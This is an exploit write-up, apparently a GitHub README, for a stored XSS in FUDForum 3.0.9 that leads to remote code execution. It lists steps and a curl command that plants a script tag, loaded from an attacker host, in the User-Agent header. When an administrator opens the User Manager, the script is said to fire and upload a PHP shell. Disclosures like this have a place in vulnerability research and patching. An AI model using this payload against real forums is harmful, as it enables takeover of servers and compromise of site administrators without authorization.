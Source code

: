 # FUDforum-XSS-RCE
FUDForum 3.0.9 - XSS / Remote Code Execution

- Date                  : 10/26/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http:fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https:sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http:incidentsecurity.com | demo: https:youtu.be/0gsJQ82TXw4
- CVE                   : TBD

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to XSS via the user-agent request header.
This may result in remote code execution. An attacker can use a user account to fully compromise the system using a GET request.
When the admin visits the user information under "User Manager" in the control panel the payload will execute.
This will allow for PHP files to be written to the web root, and for code to execute on the remote server. 

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:
curl -A '<script src="http:attacker.machine/fud.js"></script>' http:target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
